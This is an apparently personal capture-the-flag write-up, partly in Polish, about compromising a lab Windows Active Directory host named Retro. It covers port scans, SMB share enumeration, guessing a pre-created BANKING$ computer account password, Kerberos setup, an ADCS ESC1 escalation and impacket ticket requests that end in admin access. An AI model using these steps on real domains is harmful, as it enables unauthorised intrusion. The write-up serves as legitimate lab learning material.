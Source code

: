 #Retro
Windows, Easy, created by **r0BIT**


```
53/tcp    open  domain        Simple DNS Plus
53/udp  open  domain       (generic dns response: SERVFAIL)
88/udp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-11-27 11:09:54Z)
123/udp open  ntp          NTP v3
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  msrpc         Microsoft Windows RPC

```

```
10.10.93.230 DC.retro.vl retro.vl
```

![{7F50A555-1CAA-4972-BAA2-0146D8AB3A19}](https://github.com/user-attachments/assets/9e985ad7-e797-4af8-abbd-35fc2781323d)

Interesting

```
enum4linux -a 10.10.93.230
enum4linux -u guest -a 10.10.93.230
enum4linux -u anonymous -a 10.10.93.230
```

some output
```
[+] Attempting to map shares on 10.10.93.230                                                                                                                                                                                                
                                                                                                                                                                                                                                            
//10.10.93.230/ADMIN$   Mapping: DENIED Listing: N/A Writing: N/A                                                                                                                                                                           
//10.10.93.230/C$       Mapping: DENIED Listing: N/A Writing: N/A

[E] Can't understand response:                                                                                                                                                                                                              
                                                                                                                                                                                                                                            
NT_STATUS_NO_SUCH_FILE listing \*                                                                                                                                                                                                           
//10.10.93.230/IPC$     Mapping: N/A Listing: N/A Writing: N/A
//10.10.93.230/NETLOGON Mapping: OK Listing: DENIED Writing: N/A
//10.10.93.230/Notes    Mapping: OK Listing: DENIED Writing: N/A
//10.10.93.230/SYSVOL   Mapping: OK Listing: DENIED Writing: N/A
//10.10.93.230/Trainees Mapping: OK Listing: OK Writing: N/A

```

![{E01933E8-D0D6-4F51-9973-FAD4CD178E90}](https://github.com/user-attachments/assets/7025f38b-0800-4bc8-9cd2-960d2e2f3ef2)

![{339F338C-4A5D-448A-9878-A12DD2A99AF2}](https://github.com/user-attachments/assets/f343e62e-fbd6-4c37-9824-5aaf2999aabe)

![{F6EE8389-C344-4405-BB31-98C74FCFDDDE}](https://github.com/user-attachments/assets/1db00d63-ba61-4626-b2b9-12e15b2467f5)

![{114CA756-A357-4117-8EC3-D174FD2156BF}](https://github.com/user-attachments/assets/131a239b-8b87-44a4-aff4-80b0372ff5b4)

![{8205FCC4-2FA7-4F96-A902-ACD047982181}](https://github.com/user-attachments/assets/30fa112b-3271-4e18-bc12-ff20923d7d50)
- dobra nie muszę rockyour puszczać xd
- siedzi dwóch userów

![{49558BE5-E638-4D7A-820E-E976C9CEEDFB}](https://github.com/user-attachments/assets/98d3f594-cfa1-43e6-9668-6008ec931c0d)

![{D76DC5CC-B78C-4A98-BA75-B5732423B3D1}](https://github.com/user-attachments/assets/cc4e3247-c2a4-47b1-ba30-1142389897c1)

chyba mówi o koncie `BANKING$`

Listę zrobiłem i szukamy hasła.
![{B04F4535-8D38-477D-B675-AA08B474BB86}](https://github.com/user-attachments/assets/39d8d344-fb9a-4768-8b11-1437ddd606aa)

![{94DC766B-8911-433D-B604-B42A4DE540BC}](https://github.com/user-attachments/assets/ef495cca-a2b9-4c79-9c6d-655b3f815328)

O tak nie miałem jeszcze

I found some info
https://trustedsec.com/blog/diving-into-pre-created-computer-accounts


```
cat /etc/krb5.conf 
[libdefaults]
        default_realm = RETRO.VL
        dns_lookup_realm = false
        ticket_lifetime = 24h
        renew_lifetime = 7d
        rdns = false
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true


[realms]        
        RETRO.VL = {
                kdc = DC.RETRO.VL 
                admin_server = DC.RETRO.VL
                }

```
```
sudo apt-get install krb5-user
```
![{348A729D-9BA8-4358-B63E-B22024C88585}](https://github.com/user-attachments/assets/d13edd47-9581-484d-aab1-f79c3826cb8e)

echo errors again.
But it is typical

```
sudo timedatectl set-ntp off
while true; do sudo rdate -n 10.10.93.230; done
```

![{55C2B68A-5B38-405F-93F0-1FE490D8AE2A}](https://github.com/user-attachments/assets/be3a76e7-8c05-4886-a83a-68040b11766e)

file again. Google time

edit /etc/krb5.conf
```
[libdefaults]
        default_realm = RETRO.VL
        dns_lookup_realm = false
        ticket_lifetime = 24h
        renew_lifetime = 7d
        rdns = false
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true

        kdc_timesync = 1
        cchace_type = 4
        forwarable = true
        proxiable = true
        rdns = false

        fcc-mit-tricketflags = true

[realms]        
        RETRO.VL = {
                kdc = DC.RETRO.VL 
                admin_server = DC.RETRO.VL          
                }

```

I nie działa.. ech
- zmarnowałem na to jakoś 2 godziny i nie rozumiem czmeu nie działa. Spróbuję czegoś innego.
![{0C5F0E31-9609-47B5-87F5-133E4927E49D}](https://github.com/user-attachments/assets/815fddb4-8aa0-4507-b05c-0cb7eb10d7b8)

![{CD208D5D-76CD-4D41-82F8-1BB48538EFD8}](https://github.com/user-attachments/assets/e23469b4-58a1-4334-b92f-5ec2012161c5)

Coś tam widać.

Following instruction for ESC1

![{92C81B8F-9C5C-413B-846F-0AB22B77424A}](https://github.com/user-attachments/assets/3232048d-3682-48c0-849e-5ddb44d7ad4d)

ech we need this computer account.
Or... we can add our PC.

DOBRA MAMY TO!

![{4C1032F0-D9C4-4E34-8A39-BB037B742989}](https://github.com/user-attachments/assets/33861608-932f-4409-8d39-3d41f54475f4)

```
impacket-getTGT 'retro.vl/BANKING$:banking'
export KRB5CCNAME=BANKING\$.ccache
```

![{F4D279AE-20EB-4C45-AEE2-FCF0EEFD906D}](https://github.com/user-attachments/assets/ddd8e7f3-9984-490c-920b-0d4d7e8fb7b0)

I run it twice and works :D

![{6553B659-F7B0-4BF9-B08E-13C31691846B}](https://github.com/user-attachments/assets/db63ada6-e388-41fb-a8a1-8e4ec8c8ed9c)

and we are admin

![{B37E5543-56F5-4EEC-93E7-C2D24FDFA91B}](https://github.com/user-attachments/assets/12dc5fe7-29c9-4d10-bc75-3cfbd99a66e1)

I had a problem with psexec, atexec, wmiexec, itd. so I run commands with nxc (I know nxc is using  psexec, atexec, wmiexec, smbexec but.. it works)

![{E8F3A10C-E1BE-4C4E-886C-B206DC474527}](https://github.com/user-attachments/assets/2c39f2eb-a6c8-4307-b215-a7b57ee996bc)


